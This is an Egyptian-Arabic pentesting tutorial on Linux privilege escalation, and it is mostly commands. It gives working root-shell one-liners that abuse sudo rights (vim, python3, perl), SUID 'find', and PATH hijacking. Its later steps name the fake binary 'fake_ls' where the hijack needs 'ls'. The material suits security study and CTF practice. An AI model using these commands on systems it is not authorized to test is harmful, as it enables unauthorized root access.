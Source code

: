 تمام، هديك شرح عملي عميق مع الأوامر والاستغلالات، وفي النهاية هحط لك خطوات **Pentesting عملية** للاستغلال. وهلخص كل جزء بالعامية بعد شرحه.

---

## 🔥 **1. استغلال أوامر sudo (Abusing Sudo Privileges)**

في بعض الأحيان، المستخدم بيكون عنده صلاحية تشغيل أوامر معينة بـ `sudo` من غير كلمة مرور، وده ممكن يكون مدخل للاستغلال.

### 🔹 **1.1 معرفة الأوامر اللي نقدر نشغلها بـ sudo**

أول خطوة إنك تشوف إيه الأوامر اللي تقدر تشغلها بـ `sudo`:

```bash
sudo -l
```

ده هيعرض قائمة بالأوامر المسموح بيها. لو لقيت أمر ممكن تستخدمه لفتح Shell، يبقى عندك طريق للاستغلال.

### 🔹 **1.2 استغلال أوامر فيها ثغرات للتصعيد**

لو مثلا الأمر `vim` موجود في القائمة، تقدر تفتح **Shell بصلاحيات root** كالتالي:

```bash
sudo vim -c '!sh'
```

أو لو `python3` متاح:  

```bash
sudo python3 -c 'import pty; pty.spawn("/bin/bash")'
```

نفس الفكرة مع `perl`:

```bash
sudo perl -e 'exec "/bin/sh";'
```

أوامر تانية زي `find`، `awk`، `tar`، و `zip` ليهم نفس الاستغلالات. ممكن تستخدم موقع **GTFOBins** للبحث عن أي أمر عندك وتشوف استغلاله:  
[https://gtfobins.github.io/](https://gtfobins.github.io/)

### ✅ **الخلاصة بالعامية:**

لو تقدر تشغل أوامر معينة بـ `sudo`، دور على أمر ممكن يفتح لك Shell بصلاحيات **root**. استخدم `sudo -l` وشوف لو فيه حاجة تقدر تستغلها.

---

## 🔥 **2. استغلال ملفات SUID (Abusing SUID Binaries)**

### 🔹 **2.1 البحث عن ملفات SUID**

نستخدم الأمر ده للبحث عن كل الملفات اللي عليها SUID:

```bash
find / -perm -4000 2>/dev/null
```

ده هيجيب كل الملفات اللي بتشتغل بصلاحيات صاحبها (غالبًا root).

### 🔹 **2.2 استغلال ملف SUID بيشغل أوامر**

لو لقيت ملف زيه زي `find` عنده SUID، تقدر تشغله كالتالي:

```bash
/usr/bin/find . -exec /bin/bash -p \;
```

وده هيفتح لك Shell بصلاحيات root.

### 🔹 **2.3 لو ملف SUID بيستدعي أمر غير آمن**

لو عندك ملف `custom_script` وعرفت إنه بيستدعي `ls` مثلًا جواه، تقدر تعمل التالي:

```bash
echo "/bin/sh" > ls
chmod +x ls
export PATH=.:$PATH
/custom_script
```

وده هيشغل Shell بصلاحيات root لإنه بيستخدم `ls` من الـ PATH اللي انت عدلته.

### ✅ **الخلاصة بالعامية:**

لو فيه ملف عليه SUID، جرب تشوف بيعمل إيه، ولو بيشغل أوامر، ممكن تخليه يشغل Shell بصلاحيات root.

---

## 🚀 **خطوات Pentesting عملية لاستغلال sudo و SUID**

### 🔥 **1. استغلال sudo (Privilege Escalation via Sudo)**

#### ✅ **الخطوات:**

1. شوف إيه الأوامر اللي تقدر تشغلها بـ `sudo`:
    
    ```bash
    sudo -l
    ```
لو النتيجه طلعت كده 
![[Pasted image 20250315152254.png]]
اعمل الاتي

2. لو لقيت أمر ممكن يستغل، جرب تشغيل Shell:
    
    ```bash
    sudo python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```
    
3. لو لقيت أمر بيشغل ملفات، جرب تعمل **Hijacking** للملف اللي بيشغله.

---

### 🔥 **2. استغلال SUID (Privilege Escalation via SUID Binaries)**

#### ✅ **الخطوات:**

1. دور على كل ملفات SUID:
    
    ```bash
    find / -perm -4000 2>/dev/null
    ```
    
2. شوف لو فيه أمر معروف عنده SUID، زي `find` أو `vim` أو `bash`:
    
    ```bash
    /usr/bin/find . -exec /bin/bash -p \;
    ```
    
3. لو الملف بيستدعي أمر معين، اعمل **Hijacking** باستخدام PATH Variable:
    
    ```bash
    echo "/bin/sh" > fake_ls
    chmod +x fake_ls
    export PATH=.:$PATH
    /custom_script
    ```
    

---

## 🔥 **الخلاصة العامة بالعامية:**

1. **sudo -l** ده أول حاجة تشوفها، لو تقدر تشغل حاجة بـ sudo بدون باسورد، غالبًا تقدر توصل لـ root.
2. **لو لقيت SUID file**، شوف بيعمل إيه، وجرب تشغله بطرق مختلفة.
3. **لو ملف بيستدعي أوامر خارجية**، حاول تلعب في الـ PATH وتخليه يشغل حاجة انت عاملها بنفسك.

💡 **نصيحة**: لو بتلعب في CTF أو بتعمل **Privilege Escalation**، دايمًا جرب **GTFOBins** و `sudo -l` و `find / -perm -4000` كخطوات أولى. 🚀